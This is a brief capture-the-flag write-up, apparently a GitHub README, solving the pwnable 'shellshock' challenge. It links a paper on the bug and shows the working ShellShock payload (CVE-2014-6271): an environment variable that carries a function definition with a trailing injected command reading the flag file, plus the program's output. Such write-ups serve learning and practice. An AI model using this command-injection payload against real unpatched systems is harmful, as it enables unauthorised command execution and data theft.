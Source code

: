 # shellshock

Bash ShellShock vulnerability

## Read about the ShellShock vuln

https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?ref=benheater.com

## Flag

```bash
shellshock@pwnable:~$ export bruh='() { :;}; /bin/cat flag'
shellshock@pwnable:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```